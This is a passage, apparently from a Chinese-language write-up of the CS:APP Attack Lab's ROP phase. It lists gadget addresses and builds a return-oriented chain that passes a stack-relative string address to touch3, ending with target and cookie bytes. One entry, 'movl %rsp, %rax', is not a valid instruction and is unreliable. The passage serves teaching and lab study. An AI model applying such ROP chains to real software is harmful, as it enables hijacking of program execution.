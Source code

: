 | `setval_328` | - | - |
| `setval_450` | - | - |
| `addval_358` | `movl %esp, %eax` | `0x401a86` |
| `addval_124` | - | - |
| `getval_169` | - | - |
| `setval_181` | - | - |
| `addval_184` | - | - |
| `getval_472` | - | - |
| `setval_350` | `movl %rsp, %rax` | `0x401aad` |

去重整理后可得我们可以使用的指令如下：

| 指令 | 对应地址 |
| --- | --- |
| `movq %rax, %rdi` | `0x4019c5` |
| `popq %rax` | `0x4019cc` |
| `lea (%rdi, %rsi, 1), %rax` | `0x4019d6` |
| `popq %rsp; movl %eax, %edx;` | `0x4019dc` |
| `movq %rsp, %rax` | `0x401a06` |
| `movl %ecx, %esi` | `0x401a13` |
| `movl %edx, %ecx` | `0x401a34` |
| `movl %esp, %eax` | `0x401a3c` |
| `movl %eax, %edx` | `0x401a42` |
| `movl %rsp, %rax` | `0x401aad` |

由于开了栈随机化，所以无法使用绝对地址定位栈中的地址，我们需要通过相对地址确定字符串的起始地址，而我们又使用 `ROP` 进行攻击，所以字符串需要放在末尾，计算这个地址可以使用 `lea (%rdi, %rsi, 1), %rax` 这个指令。

为此我们还需要先执行指令 `movq %rax, %rdi` 和 `movl %ecx, %esi` ，由于 `movl` 会将高 32 位置 `0` ，所以我们将栈指针的地址存在寄存器 `%rdi` 中（可以通过执行 `movq %rsp, %rax; movq %rax, %rdi;` 实现），将地址偏移量存在寄存器 `%ecx` 中（可以通过 `popq %rax; movl %eax, %edx; movl %edx, %ecx; movl %ecx, %esi;` 实现）。

综上可得一种合法的执行顺序如下：

```assemble
popq %rax
movl %eax, %edx
movl %edx, %ecx
movl %ecx, %esi
movq %rsp, %rax
movq %rax, %rdi
lea (%rdi, %rsi, 1), %rax
movq %rax, %rdi
# 先存放函数 touch3 的入口地址
# fa 18 40 00 00 00 00 00
# 这里开始放字节数据：
# 35 39 62 39 39 37 66 61 00
```

